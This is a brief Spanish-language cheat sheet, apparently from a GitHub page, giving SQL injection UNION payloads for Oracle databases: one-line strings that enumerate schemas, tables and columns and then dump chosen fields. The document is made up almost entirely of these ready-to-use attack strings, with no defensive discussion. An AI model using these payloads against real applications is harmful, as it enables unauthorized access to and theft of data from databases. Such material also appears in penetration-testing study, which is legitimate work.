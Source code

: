 

# Obtener los nombres de todos los esquemas en la base de datos Oracle

```python
' union select NULL,username from all_users--
```


# Tablas

```python
' union select NULL,table_name from all_tables--
```

# Columnas

```python
' union select NULL,column_name from all_tab_columns where table_name=''--
```


# Campos

```python
' union select columna1,columna2 from tabla--
```

